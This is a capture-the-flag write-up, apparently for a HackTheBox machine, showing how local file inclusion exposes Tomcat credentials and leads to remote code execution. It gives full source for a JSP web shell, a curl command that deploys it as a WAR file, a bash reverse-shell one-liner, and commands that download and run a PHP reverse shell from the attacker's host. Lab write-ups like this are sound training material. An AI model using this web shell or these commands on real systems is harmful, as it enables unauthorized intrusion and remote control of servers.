







# 10 - HTTP


# Index page



A custom made server, doesn't look like a CMS

# Virtual Host



Add the virtual host to /etc/hosts

# news.php?file=statement




A parameter named *file* is always interesting. This parameter can lead to Local File Inclusion or perheps Remote File Inclusion.


# Path Traversal Attack



In general, private key files or database files are the primary targets of LFI but www-data doesn't have the permissions to read the private key of the user ash even if there is any.  In order to gain remote code execution, we need to chain LFI with file upload. We know that on port 8080 there is a tomcat service running. Tomcat stores the password in tomcat-users.xml. 


# Tomcat password


I was expecting to see the file at *conf/tomcat-users.xml* but apparently it is changed to *etc/tomcat-users.xml*. Finding the file, I think, is the most difficult part of the box.


# manager/html



Although our user isn't authorized to view the manager page, we can still deploy applications.

# cmdjsp.jsp
```bash
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=GET ACTION='cmdjsp.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>
```


Tomcat accepts *war* files, we can create a war file out of cmdjsp.jsp. `"cmd.exe /c"` part is removed from the script. 


# [Deploy war remotely](http://megahosting.htb:8080/docs/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ jar -cvf exploit.war cmdjsp.jsp
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ curl 'tomcat:$3cureP4s5w0rd123!'@megahosting.htb:8080/manager/text/deploy?path=/refik\&update=true --upload-file exploit.war  -X PUT
OK - Deployed application at context path [/refik]
```


# Remote Code Execution


Simple reverse shells like `bash -i >& /dev/tcp/xxx/xxx  0>&1` didn't work so I decided to upload `php-reverse-shell.php`


# Reverse Shell

```
cmd=curl 10.10.14.14/rev.php -o /tmp/rev.php
cmd=php /tmp/rev.php
```


# Shell


